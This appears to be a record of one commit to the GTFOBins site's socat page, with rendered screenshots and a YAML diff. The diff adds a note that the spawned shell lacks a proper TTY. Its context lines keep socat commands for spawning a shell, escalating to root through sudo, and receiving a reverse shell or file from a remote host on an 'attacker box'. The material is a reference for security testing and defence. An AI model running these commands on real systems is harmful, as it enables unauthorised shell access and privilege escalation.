

Before and after one commit to GTFOBins/GTFOBins.github.io, a Jekyll site: the page built from _gtfobins/socat.md, in a window 1280 px wide and 1400 px high. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
Add note about socat shell

```diff
--- a/_gtfobins/socat.md
+++ b/_gtfobins/socat.md
@@ -1,7 +1,8 @@
 ---
 functions:
   shell:
-    - code: |
+    - description: The resulting shell is not a proper TTY shell and lacks the prompt.
+      code: |
         socat stdin exec:/bin/sh
   reverse-shell:
     - description: Run ``socat file:`tty`,raw,echo=0 tcp-listen:12345`` on the attacker box to receive the shell.
@@ -29,7 +30,8 @@ functions:
         LFILE=file_to_save
         socat -u tcp-connect:$RHOST:$RPORT open:$LFILE,creat
   sudo:
-    - code: |
+    - description: The resulting shell is not a proper TTY shell and lacks the prompt.
+      code: |
         sudo socat stdin exec:/bin/sh
   limited-suid:
     - description: Run ``socat file:`tty`,raw,echo=0 tcp-listen:12345`` on the attacker box to receive the shell.
```
